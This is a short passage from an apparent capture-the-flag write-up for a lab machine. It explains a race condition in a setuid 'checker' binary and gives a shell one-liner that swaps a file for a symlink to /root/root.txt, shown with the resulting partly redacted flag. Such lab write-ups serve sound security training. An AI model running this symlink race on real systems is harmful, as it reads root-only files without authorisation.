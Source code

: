 ```
smasher@smasher:~$ file /usr/bin/checker
/usr/bin/checker: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=33890d7446199d25dadc438fce63a78c3f377f95, not stripped
```

There's a race condition in the file because it sleeps for 1 second before reading the file content, so we can exploit this by:

1. Creating a dummy file 'blah' with some junk it
2. Launch /usr/bin/checker against 'blah', then sleep for 0.5 seconds
3. Delete 'blah' and replace it with a symlink to /root/root.txt
4. After the programs comes out of the sleep() function, it'll read root.txt because it's running as root

```
smasher@smasher:~$ rm blah;echo 123 > blah;(/usr/bin/checker blah &);sleep 0.5;rm blah;ln -s /root/root.txt blah
rm: cannot remove 'blah': No such file or directory
[+] Welcome to file UID checker 0.1 by dzonerzy

smasher@smasher:~$ File UID: 1001

Data:
077af<redacted>
```

Flag: `077af<redacted>`
